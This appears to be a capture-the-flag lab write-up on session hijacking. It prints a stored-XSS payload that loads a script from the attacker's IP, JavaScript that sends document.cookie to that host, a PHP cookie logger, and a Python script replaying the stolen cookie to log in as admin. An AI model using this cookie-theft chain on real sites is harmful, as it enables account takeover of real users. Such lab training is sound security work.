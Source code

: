 # Session Hijacking

Try to repeat what you learned in this section to identify the vulnerable input field and find a working XSS payload, and then use the ‘Session Hijacking’ scripts to grab the Admin’s cookie and use it in ‘login.php’ to get the flag.

- The first thing was to test the payloads field by field until someone sent a connection to my server

![](https://miro.medium.com/v2/resize:fit:700/1*VJ7_JqINL6dcwDMqyCOjJA.png)

- Payload used:

"><script src=http://10.10.15.121></script>

- Now that we know the field that is vulnerable, I will create a php server and a script.js to be run remotely

<?php  
if (isset($_GET['c'])) {  
    $list = explode(";", $_GET['c']);  
    foreach ($list as $key => $value) {  
        $cookie = urldecode($value);  
        $file = fopen("cookies.txt", "a+");  
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");  
        fclose($file);  
    }  
}  
?>

document.location='http://10.10.15.121/index.php?c='+document.cookie;  
new Image().src='http://10.10.15.121/index.php?c='+document.cookie;

- Now just run the server and use the same script payload, just adding /script.js next to our ip.  
    (“><script src=http://10.10.15.121/script.js></script>)

![](https://miro.medium.com/v2/resize:fit:700/1*MoD_ZT259NlR5BpNUnA71A.png)

- With the cookies in hand, we can go to /login.php through the browser, and add the cookie manually via the storage>cookies tab, but I created a script in Python that already makes the direct request

import requests  
  
url = "http://10.129.172.128/hijacking/login.php"  
headers = {  
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8",  
    "Accept-Encoding": "gzip, deflate",  
    "Accept-Language": "pt-BR,pt",  
    "Cache-Control": "max-age=0",  
    "Connection": "keep-alive",  
    "Cookie": "cookie=c00k1355h0u1d8353cu23d",  
    "Host": "10.129.172.128",  
    "Sec-GPC": "1",  
    "Upgrade-Insecure-Requests": "1",  
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36"  
}  
  
response = requests.get(url, headers=headers)  
  
print(response.text)

![](https://miro.medium.com/v2/resize:fit:700/1*qpF31q8vkTOyubI9nkMo9w.png)